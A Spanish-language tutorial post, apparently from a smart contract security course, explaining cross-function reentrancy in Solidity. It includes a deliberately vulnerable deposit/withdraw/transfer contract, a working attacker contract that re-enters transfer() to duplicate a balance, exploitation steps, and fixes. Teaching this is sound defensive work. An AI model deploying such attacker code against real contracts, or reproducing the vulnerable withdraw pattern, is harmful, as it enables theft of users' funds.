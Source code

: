 ```yaml
---
title: 'Solidity: Ataque Reentrancy Cruzado'
description: 'La vulnerabilidad conocida como Reetrancy permite llamar a una misma función una y otra vez. Existe una variante que provoca el llamado a una segunda función. Se lo conoce con el nombre de Reetrancy Cruzado.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Cross Reentrancy Attack',
  description: 'The vulnerability known as Reetrancy allows the same function to be called over and over again. There is a variant that causes a second function to be called. It is known by the name of Reetraccy Cruzado.'
}
prev: 'reentrancy-attack'
next: 'self-destruct-attack'
---
```


# Solidity: Ataque Reentrancy Cruzado

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones

Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
  mapping (address => uint) private balances;

  // Función para depositar ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Función para retirar todo el ETH de una cuenta
  function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}("");
    require(result);
    balances[msg.sender] = 0;
  }

  // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
  function transfer(address to, uint amount) public {
    if (balances[msg.sender] >= amount) {
      balances[to] += amount;
      balances[msg.sender] -= amount;
    }
  }

  // Función para ver el balance de una cuenta
  function getBalance(address addr) public view returns (uint) {
    return balances[addr];
  }

  // Función para ver el balance total del contrato
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por su parte, el contrato atacante:

```js
contract Ataque {
  // Dirección del owner de contrato donde se duplicará el balance
  address payable ownerAddr;

  ReentrancyCross public reentrancyCross;

  constructor(address _reentrancyCrossAddress) {
    // Instanciamos el contrato ReentrancyCross
    reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
    ownerAddr = payable(msg.sender);
  }

  // Función que recibe los ETH luego de un retiro
  receive() external payable {
    // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
    reentrancyCross.transfer(ownerAddr, msg.value);
  }

  // Función que ocasiona el llamado a una segunda función luego del retiro
  function attack() external payable {
    require(msg.value >= 1 ether);
    reentrancyCross.deposit{value: 1 ether}();
    reentrancyCross.withdraw();
  }

  // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `ReentrancyCross`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

### ¿Qué sucedió aquí?

`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?

Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
  uint amount = balances[msg.sender];
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
  balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?

Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
  uint amount = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones

Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/ "Curso de Seguridad de Smart Contracts") de **Platzi**.
